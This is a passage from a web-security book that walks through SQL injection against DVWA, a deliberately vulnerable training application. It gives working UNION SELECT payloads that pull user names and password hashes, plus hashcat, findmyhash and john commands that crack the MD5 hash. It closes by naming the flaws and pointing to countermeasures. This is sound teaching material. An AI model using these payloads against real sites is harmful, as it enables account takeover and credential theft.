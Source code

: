 G> This told me that the query on the server was slightly different to what I thought. My revised guess of the full query:  
G> `SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT first_name, last_name FROM users WHERE first_name LIKE '%'`  
G> Inject query:  
G> `1' UNION SELECT first_name, last_name FROM users WHERE first_name LIKE '%`
G>
G> Now for the passwords:  
G> Full server query guess:  
G> `SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT first_name, password FROM users WHERE first_name LIKE '%'`  
G> Inject query:  
G> `1' UNION SELECT first_name, password FROM users WHERE first_name LIKE '%`
G>
G> Lets determine the hash type with hash-identifier. Just run it and throw the hash at it and it will tell you that it is most likely a simple MD5. which is a one-way hashing function with no Key derivation. So very quick to crack.
G>
G> So take your pick of the following three commands:  
G> Create `./hashtocrack.txt` and put the hash(s) you want cracked in it. If you still have the wordlist we created in the [Brute Forcing](#people-identify-risks-weak-password-strategies-brute-forcing-hydra) section in the People chapter, just use it.  
G> 1. `hashcat -m 0 ./hashtocrack.txt ./wordlist-to-throw-at-dvwa`  
G>    `-m 0` means MD5 to hashcat.  
G> 2. `[algorithm]` for next command in this case will be `MD5`  
G>    `findmyhash [algorithm] -h <hash_value>`  
G>    `findmyhash` is a cracker that queries online lists.  
G> 3. `john --format=raw-MD5 /root/hashtocrack.txt wordlist-to-throw-at-dvwa --show`  
G> This gives us the super secure password of "admin"
G>
G> In order to get login, we actually need the username. In this case they were the same, but for some other users they were not. So our last query.  
G> Full server query guess:  
G> `SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT user, password FROM users WHERE first_name LIKE '%'`  
G> Inject query:  
G> `1' UNION SELECT user, password FROM users WHERE first_name LIKE '%`  
G> Or simplified:  
G> `1' UNION SELECT user, password FROM users#'`
G> Now we have our admin password and user.

There are two main problems here.

1. SQL Injection
2. Poor decisions around sensitive data protection. We discuss this in depth further on in this chapter in the [Data-store Compromise](#web-applications-identify-risks-management-of-application-secrets-data-store-compromise) section and even more so the [Countermeasures](#web-applications-countermeasures-data-store-compromise) of. Do not follow this example of a lack of well salted and quality strong key derivation functions (KDFs) used on all of the sensitive data in your own projects.

#### Command Injection {#web-applications-identify-risks-command-injection}

